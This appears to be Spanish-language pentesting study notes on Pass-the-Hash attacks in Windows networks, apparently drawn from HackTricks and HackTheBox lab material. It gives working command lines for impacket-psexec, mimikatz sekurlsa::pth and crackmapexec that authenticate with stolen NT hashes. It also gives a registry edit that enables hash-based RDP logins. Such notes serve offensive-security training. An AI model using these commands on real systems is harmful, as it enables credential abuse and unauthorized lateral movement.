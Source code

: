 # Pass the hash

- [more info](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)

## Español:

#### Definición
- El ataque PTH es una tecnica utilizada para comprometer cuentas en ambientes windows sin tener la necesidad de conocer las contraseñas en texto plano. En lugar de usar la contraseña se utiliza el hash de la misma para autenticarse.

## Utilización
1. Post explotación
2. Movimiento lateral: Para moverse lateralmente dentro de una red si la maquina comprometida tiene acceso a recursos compartidos.
3. Escalación de privilegios

## Funcionamiento
- Mediante NTLM.
- NTLM es un protocolo de autenticación Windows que no requiere la contraseña en texto plano para validar autenticaciones (hashes NT).
    - Obtener hash NT de un usuario (dumping de credenciales con mimikatz x ej).
    - Usar el hash para autenticarse.
    - Acceder a recursos protegidos (smb, rdp, winrm, etc).

### Impacket con psexec
`impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`
`DOMAIN/USER@TARGET -hashes LMHASH:NTHASH`

### Mimikatz
- Permite autenticar usando hashes con el modulo `sekurlsa::pth`
`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
`sekurlsa::pth /user:admin /domain:. /ntlm:0123456789abcdef0123456789abcdef /run:cmd.exe`

### Crackmapexec
`crackmapexec smb TARGET_IP -u USER -H NTHASH`
`cme smb 192.168.1.10 -u admin -H 0123456789abcdef0123456789abcdef`

## Permitir Pth con RDP
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- ![](https://academy.hackthebox.com/storage/modules/147/rdp_session-5.png)
- Una vez de que la llave fue agregada al registro del sistema podemos intntar usar xfreerdp con la opción /pth